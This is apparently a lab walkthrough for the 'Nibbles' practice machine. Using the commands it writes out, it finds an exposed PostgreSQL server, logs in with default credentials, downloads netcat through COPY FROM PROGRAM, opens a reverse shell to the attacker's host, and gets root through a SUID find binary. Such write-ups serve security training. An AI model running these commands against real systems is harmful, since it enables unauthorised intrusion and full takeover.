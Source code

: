 # Exploitation Guide for Nibbles
## Summary
We'll gain code execution on this machine via a misconfigured PostgreSQL database server which is listening on all interfaces and accepts the default credentials. We can then escalate via misconfigured SUID permissions on the /usr/bin/find binary.
Enumeration
Nmap

### Let's begin with a full nmap TCP port scan.
`sudo nmap -p- 192.168.234.140`

![6311676dc05520684e6e9262dd894681.png](../../../../_resources/6311676dc05520684e6e9262dd894681.png)

### A focussed scan identifies PostgreSQL running on port 5437.
`sudo nmap -p 5437 192.168.234.140 -A -sV -T4`

![a02ba6fb39f5b07a33f6b838cf7da781.png](../../../../_resources/a02ba6fb39f5b07a33f6b838cf7da781.png)

## Exploitation
### PostgreSQL Reverse Shell

Since the PostgreSQL server is listening on all interfaces, we can connect to it with psql. Since credentials are required, we begin password guessing and discover that the default credentials (postgres:postgres) are still active.

`psql -h 192.168.234.140 -p 5437 -U postgres`
![f9579c5c221c925c4aee16adf6fa5bf4.png](../../../../_resources/f9579c5c221c925c4aee16adf6fa5bf4.png)

In addition, the default PostgreSQL settings are also in place, which means we can easily grab a reverse shell. To do this, we'll first start a web server and host our copy of the Netcat binary.

### Find and host nc binary on kali:
```
which nc
cp /usr/bin/nc .
sudo python3 -m http.server 80
```
![870644268ac46124b13138d6ee553903.png](../../../../_resources/870644268ac46124b13138d6ee553903.png)

### Then, we'll set up a Netcat listener on port 5437.
`nc -lvp 5437`

After switching to the default postgres database, we can download the Netcat binary to the target and use it to connect back to our attack machine.

```
\c postgres;
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
DELETE FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';
```
![1556344d92fcf902797ba947b9d67438.png](../../../../_resources/1556344d92fcf902797ba947b9d67438.png)

Our listener caught a postgres shell:
![ecde8d1b6ef0788cca07cc47d94c6381.png](../../../../_resources/ecde8d1b6ef0788cca07cc47d94c6381.png)

## Escalation
### SUID

As part of our enumeration process, we use find to locate SUID programs and interestingly discover that the find program itself is SUID.

```
find / -perm -u=s -type f 2>/dev/null
<esql/11/main$ find / -perm -u=s -type f 2>/dev/null
```

We can easily abuse this misconfiguration to obtain a root shell.

`find . -exec /bin/sh -p \; -quit`
`whoami`

![e6d2ea39f7d0f20a7c9d18e20e110f25.png](../../../../_resources/e6d2ea39f7d0f20a7c9d18e20e110f25.png)

